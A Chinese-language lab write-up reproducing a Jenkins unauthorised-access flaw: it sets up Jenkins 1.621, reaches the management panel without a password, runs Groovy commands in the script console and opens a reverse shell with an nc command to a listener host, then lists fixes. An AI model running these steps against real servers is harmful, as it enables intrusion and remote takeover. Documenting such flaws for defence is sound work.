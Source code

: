 ```yaml
---
title: Jenkins未授权访问漏洞
categories:
  - 漏洞复现
abbrlink: 15292
date: 2020-12-01 16:30:12
---
```


### 前言
　　默认情况下 Jenkins面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务，通过脚本执行界面从而获取服务器权限。
<!-- more -->

### 环境搭建

```bash
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
官网地址：http://mirrors.jenkins.io/ 
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行
```

<img src="https://s3.ax1x.com/2020/12/01/DfHnoQ.png">

```bash
service jenkins start # 启动jenkins服务
```
访问8080端口后出现下图后环境搭建成功
<img src="https://s3.ax1x.com/2020/12/01/DfbFk4.png">

### 未授权访问
　　访问http://192.168.127.132:8080/manage 无需密码可直接访问
　　<img src="https://s3.ax1x.com/2020/12/01/DfqgGd.png">
### 漏洞利用
　　来到脚本命令行,可执行系统命令
　　输入`println "whoami".execute().text`，查看当前用户权限
<img src="https://s3.ax1x.com/2020/12/01/DfOecn.png">
　　反弹shell
　　开启333端口侦听
　　<img src="https://s3.ax1x.com/2020/12/01/DfOLD0.png">
　　脚本命令行，运行`println "nc -vn 10.16.122.123 333 -e /bin/bash".execute().text`,可成功返回shell
　　<img src="https://s3.ax1x.com/2020/12/01/DfXciF.png">
　　这里我有一个地方复现失败，在可选插件里面，是可以安装一个Terminal Plugin插件，它是一个终端插件，然而我并没有找到。
　　更多利用方法参考链接:https://www.secpulse.com/archives/2166.html
### 解决方案
　　1、升级版本
　　2、添加认证
　　3、禁止把Jenkins直接暴露在公网

